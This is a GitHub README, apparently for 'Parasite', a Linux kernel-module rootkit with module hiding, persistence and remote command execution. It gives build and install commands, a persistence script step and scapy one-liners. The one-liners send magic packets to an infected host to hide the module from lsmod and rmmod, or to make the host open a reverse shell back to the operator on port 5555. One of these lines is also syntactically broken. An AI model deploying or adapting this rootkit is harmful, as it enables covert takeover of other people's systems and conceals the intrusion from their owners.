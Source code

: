# Parasite
This is a rootkit written in the form of a Linux kernel module (LKM), which currently contains module hiding, RCE/reverse shell, and persistence functionalities

## Installation
NOTE - Read the disclaimer if you haven't already. Additionally, it is *highly recommended* that you use this in a VM!

Works with kernel versions 5.0 and greater, tested and built natively on 5.4.0 (Ubuntu/Debian)

The following steps assume that you have already assumed root

1. Update your system via your respective package-manager, and ensure linux-headers is installed
```sh
apt update && apt install linux-headers-$(uname -r) -y
```

2. Clone repo (or download manually)
```
git clone https://github.com/MurryPuppins/Parasite.git
```

3. Enter directory and build the kernel module (requires Make)
```
cd Parasite

make
```

4. OPTIONAL: Establish persistence with the rootkit
```sh
chmod +x persist.sh

./persist.sh
```

5. Install the module
```sh
insmod Parasite.ko
```

## Usage
Once the LKM is installed, you can verify its presence via lsmod
```sh
lsmod | grep Parasite
```

### RCE/Rootkit Usage

By default, Parasite listens for TCP packets on port 6969. The rootkit has 3 options that can be used: hide, show, and reverse shell. It doesn't matter how you send the packet, but personally I used scapy. 

Note: You *must* replace **INSERT_IP** with the rootkit-infected machine's IP



- PARASITE_HIDE - Hides the module from lsmod, thus inherently prevents it from being removed via rmmod as well
```
sr1(IP(dst="INSERT_IP")/TCP(dport=6969)/Raw(load='PARASITE_HIDE'))
```

- PARASITE_SHOW - Puts LKM back into list, thus allowing for removal via rmmod
```
sr1(IP(dst="INSERT_IP")/TCP(dport=6969)/Raw(load='PARASITE_SHOW'))
```

- PARASITE_RSHELL127.0.0.1 - This spawns a reverse shell using your IP (change 127.0.0.1 to your IP). You will need to be listening for port 5555 (default) on your machine to catch the shell
```
sr1(IP(dst="INSERT_IP")/TCP(dport=6969)/Raw(load='PARASITE_RSHELL127.0.0.1))
```

## Uninstallation
To disable Parasite from running on the host, you can remove it *assuming it isn't hidden*
```sh
rmmod LKM
```

If you ran the persistence script, you will need to undo the script. Additionally, using your preferred text editor, open up `etc/modules` and comment/remove the line containing `Parasite`
```sh
rm /lib/modules/$(uname -r)/kernel/lib/Parasite.ko

depmod -a
```


## Disclaimer
The author is in no way responsible for any illegal use of this software. It is provided purely as an educational proof of concept. I am also not responsible for any damages or mishaps that may happen in the course of using this software. Use at your own risk!

## References
https://infosecwriteups.com/linux-kernel-communication-part-1-netfilter-hooks-15c07a5a5c4e
https://github.com/d3adzo/poetry
http://vger.kernel.org/~davem/skb_data.html
https://github.com/h3xduck/Umbra/blob/master/kernel/src/netfilter_manager.c

